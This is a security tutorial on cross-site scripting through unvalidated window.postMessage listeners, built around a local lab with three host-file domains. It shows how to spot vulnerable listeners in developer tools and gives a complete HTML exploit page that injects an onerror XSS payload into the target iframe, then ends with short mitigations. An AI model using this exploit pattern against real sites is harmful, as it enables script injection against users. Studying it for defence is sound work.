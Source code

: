 # INTRODUCTION

Due to the `same-origin policy`, scripts from different pages cannot interact with each other. They are only permitted to access each other if the pages they originate from share the same protocol, port number, and host. This policy is in place to prevent websites from attacking each other. Without the same-origin policy, visiting a malicious website could potentially allow it to access your emails from Gmail, private messages from Facebook, and so on.

However, this policy introduces `restrictions` that can limit functionality in web applications requiring cross-origin communication. For instance, consider a web application that embeds a third-party payment gateway within an iframe. The main page needs to communicate with the payment gateway to process transactions. Due to the same-origin policy, the main page cannot directly interact with the iframe's content because they originate from different domains.

To address these challenges, `window.postMessage()` is introduced. It is a method that safely enables `cross-origin communication` between Window objects. For example, it facilitates communication between a page and a pop-up it spawned, or between a page and an iframe embedded within it. This is achieved by using the postMessage method to send data from the sender's side and setting up an `event listener` to receive the data on the receiver's side.

For instance, to send a message to a third-party iframe embedded within a webpage, you can utilize the postMessage method. This method specifies both the message content to be sent and the target origin as follows:

```javascript

thirdPartyIframe.contentWindow.postMessage(message, 'https://third-party.com');

```

Here, it accesses the window object of the embedded iframe, then invokes postMessage method to send the message to the iframe's window, ensuring it is received only by iframes loaded from the specified targetOrigin ('https://third-party.com').

On the receiving side, the iframe must implement an event listener using `addEventListener` to receive the message sent from the sender:


```javascript

window.addEventListener('message', function(event) {
        const response = event.data;
});
```

This allows exchange of data between different parts of a web application while adhering to browser security policies. However, insecure use of postMessage could lead to vulnerabilities like XSS (Cross-Site Scripting), as demonstrated below.

# LAB SETUP

For this demo, we set up a local web server running at 127.0.0.1, and we added host file entries for three different origins:

- mainweb.com: This is the main web page that embeds the third-party web page and sends messages to thirdparty.com using postMessage.
- thirdparty.com: This acts as the third-party site, receiving and processing messages from any domain.
- exploit.com: This is the attacker domain where the malicious script is hosted to exploit the XSS vulnerability in thirdparty.com.

# IDENTIFYING POSTMESSAGE XSS

To identify postMessage XSS, we first need to determine : 

- Whether the target application utilizes `web messaging`.
- Whether the `origin` of the sender is `validated` on the receiving event listener.
- Whether the message event is handled using `functions` or `attributes` that can lead to an `XSS`. 

Let's start with the first point. The most effective method to identify the use of postMessage in a web application is by utilizing the `global search option` in the developer tools. This allows us to search for specific keywords in the JavaScript files, such as `postMessage()`, `addEventListener`, and others.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool.png)

As we can see, by using developer tool, we're able to identify the usage of postMessage in this web application. Let's examine the file.


![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-mainweb.png)

This is straightforward: it makes use of postMessage to send a message to the webpage embedded within it, which is `thirdparty.com/receiver.html`. With this understanding, let's now analyze the event listener responsible for processing the message. We can employ the same method to search for the `addEventListener` keyword.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool1.png)

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-thirdparty.png)

By analysing the event listener, we can see `it doesn't validate the origin of the message`, this means it can receive and process a message originating from any domain. This is useful for attacker as his malicious script needs to be hosted in different domain, so without origin validation, attacker can have his script hosted in malicious website and get his payload handled and processed by the event listener of the vulnerable website.

Lastly, we need to examine the functions or attributes used to handle the message event. To do this, we first need to know the list of `functions` and `attributes` that could lead to XSS.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/listfunc1.png)

There is a possibility of XSS if any of the mentioned functions or attributes are used to handle a message event. In our case, `document.innerHTML` is used to display the message on the webpage, which can lead to XSS vulnerabilities if the message is not properly sanitized or validated.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-function.png)

Therefore, we can craft an XSS payload, host it on our malicious website, and trick a user into visiting our site. This will trigger our script, which will then send the payload to the vulnerable website, causing it to execute which will result in an XSS attack.

# EXPLOITING POSTMESSAGE XSS

Since we have identified the use of web messaging and the possibility of an XSS attack on the vulnerable application, we will attempt to exploit it by crafting a malicious payload and hosting it on our malicious domain, exploit.com. The payload will be written as follows:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PostMessage XSS Exploit</title>
    <script>
        function sendExploitMessage() {
            const targetWindow = document.getElementById('targetIframe').contentWindow;
            const maliciousMessage = '<img src=x onerror=alert("Exploited")>';
            targetWindow.postMessage(maliciousMessage, '*');
        }

        window.onload = function() {
            sendExploitMessage();
        }
    </script>
</head>
<body>
    <h1>PostMessage XSS Exploit</h1>
    <iframe id="targetIframe" src="http://thirdparty.com/receiver.html" width="600" height="400"></iframe>
</body>
</html>

```

The `sendExploitMessage()` function is designed to send the payload to the vulnerable website. The message contains our XSS payload. Whenever a victim visits our malicious site, the window.onload event will automatically call sendExploitMessage, which sends our payload to the vulnerable page at thirdparty.com/receiver.html. This will trigger the payload, resulting in an XSS attack.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/exploit.png)

Upon visiting the malicious site, our XSS payload is executed on the vulnerable endpoint within the thirdparty.com domain.

# Mitigations

- If the application does not require communication such as receiving messages from other websites, it is advised to not utilize the event listeners for the message events unnecessarily.
- Always verify the sender’s identity using the origin.

